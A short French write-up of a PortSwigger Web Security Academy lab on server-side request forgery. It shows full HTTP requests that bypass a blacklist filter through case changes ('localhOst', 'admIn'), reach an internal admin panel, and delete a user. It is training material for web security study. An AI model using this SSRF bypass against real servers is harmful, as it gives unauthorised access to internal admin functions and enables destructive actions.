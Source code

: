 # Lab

https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter

## Solution

Le lab bloque les requêtes de check de stock où le paramètre `stockApi` contient `localhost` ou `admin`.

On peut contourner le filtre juste en changeant la casse de `localhost` en `localhOst` et `admin` en `admIn`.

```http
POST /product/stock HTTP/2
Host: 0a7b00ad03a3072883947d9e00ea0092.web-security-academy.net
Cookie: session=q6ZS4qXzD9iDB36nThq4kg9teV4GxcAh
Content-Length: 31
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a7b00ad03a3072883947d9e00ea0092.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a7b00ad03a3072883947d9e00ea0092.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

stockApi=http://localhOst/admIn
```

Ensuite on peut faire l'appel pour supprimer l'utilisateur `carlos`:

```http
POST /product/stock HTTP/2
Host: 0a7b00ad03a3072883947d9e00ea0092.web-security-academy.net
Cookie: session=q6ZS4qXzD9iDB36nThq4kg9teV4GxcAh
Content-Length: 54
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a7b00ad03a3072883947d9e00ea0092.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a7b00ad03a3072883947d9e00ea0092.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

stockApi=http://localhOst/admIn/delete?username=carlos
```